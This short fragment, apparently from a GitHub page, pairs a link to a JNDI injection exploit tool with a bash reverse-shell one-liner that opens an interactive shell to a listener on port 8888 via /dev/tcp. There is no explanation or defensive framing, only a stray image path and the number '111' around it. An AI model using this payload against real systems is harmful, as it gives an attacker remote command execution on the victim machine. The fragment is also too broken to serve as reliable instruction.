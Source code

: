 # test
111
https://github.com/welk1n/JNDI-Injection-Exploit
/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/127.0.0.1/8888 0>&1
